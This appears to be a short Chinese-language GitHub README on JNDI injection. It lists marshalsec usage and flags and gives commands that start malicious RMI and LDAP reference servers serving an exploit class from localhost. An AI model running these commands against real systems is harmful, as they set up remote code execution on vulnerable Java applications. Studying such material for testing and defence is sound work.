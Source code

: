 # JNDI 注入范例


## 注入利用原理：
![img.png](img.png)



## RMI 服务注册：
![img_1.png](img_1.png)



## JDNI 服务注册：
![img_2.png](img_2.png)



## 或 使用 "marshalsec-0.0.3-SNAPSHOT-all" 工具启用：

### marshalsec命令格式如下：
``` java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]```

### 参数说明：
```
-a：生成exploit下的所有payload(例如：hessian下的SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin）
-t：对生成的payloads进行解码测试
-v：verbose mode, 展示生成的payloads
gadget_type：指定使用的payload
arguments - payload运行时使用的参数
marshalsec.<marshaller>：指定exploits，根目录下的java文件名
```


### 开启RMI服务
```java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#ExportObject 1099```\

### 开启LDAP服务
```java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/css/#ExportObject 1389```



## 以及其他漏洞利用方法
。。。。








